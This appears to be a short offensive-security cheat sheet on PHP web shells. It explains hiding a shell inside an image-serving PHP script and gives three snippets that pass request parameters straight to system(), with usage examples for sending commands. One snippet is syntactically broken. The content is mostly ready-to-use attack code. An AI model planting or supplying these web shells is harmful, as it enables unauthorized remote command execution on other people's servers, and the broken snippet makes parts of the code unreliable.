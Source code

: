 # php webshells

## discussion

> php site using php to show images, we can hide an shell in an image

```php
if( isset( $_REQUEST['invae'] ) )
{
	system($_REQUEST['invae']);
}
die(); 
```

- `die()` removes the image garbage, making our shell easier to use
- `$_REQUEST` is more friendly towards bad characters and thus code execution


## prepared statements

### php request one liner

- usage: `GET` or `POST` request with data `shell.php?invae=ANYTHING&cmd=COMMAND`

```php
<?php  if( isset( $_REQUEST['invae'] ){ echo system( $_REQUEST['cmd'] ); } )/>
```


### php request multi-line

usage: `GET` or `POST` request with data `shell.php?invae=ANYTHING&cmd=COMMAND`

```php 
<?php
    if( isset($_REQUEST['invae']) )
    {
        echo system($_REQUEST['cmd']);
    }
?>
```

